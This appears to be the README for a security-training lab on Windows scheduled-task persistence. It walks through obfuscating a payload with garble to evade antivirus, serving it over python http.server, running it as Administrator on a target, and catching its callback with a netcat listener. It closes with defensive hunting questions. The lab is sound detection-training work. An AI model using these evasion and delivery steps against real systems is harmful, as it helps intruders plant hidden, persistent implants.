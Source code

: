# Scheduled Tasks Workshop Instructions


## Create the payload.

1. In the Attack Desktop, open a terminal, navigate to the  ironcat_attack/c2/ichttpc2 folder.
`cd /home/pslearner/workshop/ironcat_attack/persistence/scheduled_tasks`

2. Notice the already compiled client.exe file.  Check it's md5 hash using md5sum.
`md5sum icschtasks.exe`

3. Now use garble to generate a new version with obfuscation.
`garble -tiny -literals -seed=random build -ldflags='-s -w' icschtasks.go`

4. Time to move the payload over to the Windows Target. Host the file using python http simple server.
`python3 -m http.server`

5. Use the drop down in the top left to connect to the Windows Target device.

6. Open a firefox browser window and browse to http:172.32.14.10:8000

7. Click **icschtasks.exe** to download it to the device.

8. If there are warnings from smart screen, acknoledge them and choose "keep anyway"
Note: this is not the same service as windows defender, it is an artifact of us using the browser to move it over, not the payload being caught by anti-virus.

## Setup Listener And Run Persistence

The payload will generate persistence with a scheduled task and call back out to prove it. But you have to be listening.

1. On the Attacker Desktop, open a new terminal window.
2. Run a net cat listnener on port 666.
`sudo nc -lvnp 666`
3. Switch back to the Windows Target.
4. Use the desktop icon for CMD. Right click, and choose 'Run As Administrator'

5. Change directory to the downloads folder. (This one is a little tricky.)
`cd C:\Users\pslearner.PS-WIN-1\Downloads`

6. Run the payload. With arguments.
`icschtasks.exe 1 1`
Note: Unless something has changed significantly for the worse for my workshop, you should have ZERO notifications from anti-virus.

7. Swap back to your Attack Desktop, inpsect the terminal where you ran the server executable. You will see connections from the persistence after about a minute or so..  It will attempt again every minute or so, you will need to restart the netcat listener to catch it a gain. No interaction is required.

This is clearly simulated, popups would not normally happen, and you wouldn't normally have this much information about what caused the persistence.  Now you should use the tools on the device to track down what exactly is going on here. 

Some tools that may be helpful for this are:
- Sysmon Logs in Windows Event Viewer or with powershell
- Hunt for persistence with Autoruns
- Use velociraptor queires for persistence

Questions you want to answer here include:

What exactly did the executable do?

What are names of files, where are they, and what do they do.

What is the name of the scheduled task, and how could you detect it as malicous in an enterprise environment.

- [IOCs](./schtasks_IOCs.md)
